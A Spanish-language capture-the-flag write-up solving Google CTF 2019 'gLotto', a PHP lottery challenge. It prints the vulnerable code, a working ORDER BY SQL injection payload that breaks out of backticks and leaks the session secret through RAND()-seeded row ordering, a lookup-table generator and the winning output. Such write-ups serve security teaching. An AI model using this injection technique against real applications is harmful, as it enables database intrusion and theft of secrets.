 # Google CTF 2019 - gLotto

![](img/gLotto-001.png)

## Introducción

El reto consiste en acertar un código y ganar la loteria. Ademas se nos muestran los resultados de los sorteos de los últimos 4 meses.

El funcionamiento de la aplicación es el siguiente:
- Se genera un código aleatorio de 12 caracteres en la primera visita.
- El código se guarda en la variable de sesión `winner`.
- El usuario introduce un código y si es válido se devuelve la flag.
- Si no es válido, nos muestra cual era el código correcto.

![](img/gLotto-002.png)

## Examinando el código fuente

El reto nos proporciona su [código fuente](gLotto.php) en PHP.

Examinandolo, se observa una vulnerabilidad de Inyección SQL por el uso de la función [*escape_string*](https://www.php.net/manual/es/mysqli.real-escape-string.php) con un parámetro encerrado entre backticks, y no entre comillas simples.

```php
$db->query("SET @lotto = '$winner'");

for ($i = 0; $i < count($tables); $i++)
{
    $order = isset($_GET["order{$i}"]) ? $_GET["order{$i}"] : '';
    if (stripos($order, 'benchmark') !== false) die;
    ${"result$i"} = $db->query("SELECT * FROM {$tables[$i]} " .
        ($order != '' ? "ORDER BY `".$db->escape_string($order)."`" : ""));
    if (!${"result$i"}) die;
}
```

## Inyección en *ORDER BY*

Esta vulnerabilidad nos permite inyectar código SQL después de la instrucción *ORDER BY*, lo que nos limita en el uso de subconsultas con *UNION SELECT*.
Además, tenemos la limitación de que cada vez que visitamos la web se genera un código nuevo, lo que implica que deberemos exfiltrar este código en una única petición.

Por otro lado, existen 4 parámetros de orden distintos, uno para cada tabla, (order0, order1, order2 y order3).

## Analizando el código

Como hemos dicho anteriormente, el código consta de 12 caracteres, los cuales se forman a partir de un charset de 36 caracteres formado por números y letras mayusculas. En total existen 4,6e18 posibles códigos.

## Exfiltración

Para realizar la exfiltración, se ha utilizado la función RAND(i), en la que usaremos el código de semilla. Para ello hay que tener en cuenta el tamaño de cada una de las 4 tablas y el número de permutaciones posibles en la ordenación de sus elementos.

```
MARCH -> 8! =  40320
APRIL -> 9! = 362880
MAY   -> 7! =   5040
JUNE  -> 4! =     24
TOTAL ->    = 1.8e15
```
La cantidad de datos exfiltrados en el mejor de los casos no es suficiente para extraer todo el código, sin embargo, al ser posible realizar fuerza bruta a la aplicación, la probabilidad de acertar es suficiente, aproximadamente 1 entre 5000.

Para simplificar la extracción, se divide el código en 4 trozos de la siguiente forma, *4-4-3-1*, 4 caracteres en la primera y segunda tabla, 3 en la tercera, y 1 en la última.

Para conocer el funcionamiento de la funcion *RAND* he recreado la base de datos en un entorno local y he realizado las cálculos necesarios, además de poder probar localmente todo el proceso de inyección. [Archivo SQL](gLotto.sql)

## Generar tablas

Con el siguiente código se generan las posibles permutaciones y se obtiene el orden asociado a cada una, este orden se representa con un valor numérico.

```php
$charset = '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ';

$march = array();
$march['CA5G8VIB6UC9'] = '0';
$march['01VJNN9RHJAC'] = '1';
$march['1WSNL48OLSAJ'] = '2';
$march['UN683EI26G56'] = '3';
$march['YYKCXJKAK3KV'] = '4';
$march['00HE2T21U15H'] = '5';
$march['D5VBHEDB9YGF'] = '6';
$march['I6I8UV5Q64L0'] = '7';

for ($a = 0; $a < $len; $a++) {
for ($b = 0; $b < $len; $b++) {
  $word = $charset[$a].$charset[$b];
  $result = $db->query("SELECT * FROM `march` ORDER BY
    rand((ord(MID('$word',1,1))-47)*44 + (ord(MID('$word',2,1))-47))");
}}

$num = "";
while ($row = $result->fetch_array()) {
  $n = $march[$row[1]];
  $num .= $n;
}
echo "$word - $num\n";
```

## Let's SQLI!

El primer obstaculo es evitar que ordene por la columna `winner`, para ello lo anulamos utilizando `*0`.

El siguiente problema es que el parametro de la función RAND(i) debe ser númerico, y por tanto debemos convertir los caracteres a un valor numérico, de forma simple, cada caracter se convierte en un valor numérico y se multiplica por una potencia de 44, se escoje este valor por ser la distancia entre el caracter `0` y `Z` en la tabla ascii, aunque es posible utilizar cualquier otro.

```
?order0=winner`*0,rand((ord(MID(@lotto,1,1))-47)*85184 + (ord(MID(@lotto,2,1))-47)*1936 + (ord(MID(@lotto,3,1))-47)*44 + (ord(MID(@lotto,4,1))-47))#
&order1=winner`*0,rand((ord(MID(@lotto,5,1))-47)*85184 + (ord(MID(@lotto,6,1))-47)*1936 + (ord(MID(@lotto,7,1))-47)*44 + (ord(MID(@lotto,8,1))-47))#
&order2=winner`*0,rand((ord(MID(@lotto,9,1))-47)*1936 + (ord(MID(@lotto,10,1))-47)*44 + (ord(MID(@lotto,11,1))-47))#
&order3=winner`*0,rand((ord(MID(@lotto,12,1))-47))#
```

Ahora simplemente debemos comparar el resultado obtenido con las tablas generadas anteriormente para conocer los posibles candidatos.

Hacemos una prueba en el entorno local con el código, `1YS7PRY1E7S0`. Observamos como los trozos `1YS7` `PRY1` `E7S` `0` aparecen como posibles candidatos.

```
-- march: 21 --
 1YS7, 33J1, 48R2, 51CJ, 6MHM, 8Z8F, CXQ2, DGUG, EMLA, EY9H, FRTB,
 MTVO, NZMI, OFB3, P3UJ, P5FH, RHL9, V6JU, VFSB, W5WW, YBGP

-- april: 10 --
 4P75, 8D18, CLPJ, GEWU, HKNO, LYQR, OL42, PRY1, Z3Z9, ZYJ5

-- may: 8 --
 635, CDB, E7S, F3B, JUK, XW3, ZPM, ZQ1

-- june: 2 --
 0, 4

```

## Solución

El ultimo paso es automatizar el proceso en un [script](gLotto-solve.py) y ejecutarlo en bucle hasta encontrar un código válido.

```
ZIOKPJSVXMIC
You didn't win :(<br>The winning ticket was Q56J5UT2JKT3
ZZRKNVZKUUGW
You didn't win :(<br>The winning ticket was 43CFNVZK6UJW
YYWQRHNRZ4S1
You won! CTF{3c2ca0d10a5d4bf44bc716d669e074b2}
```
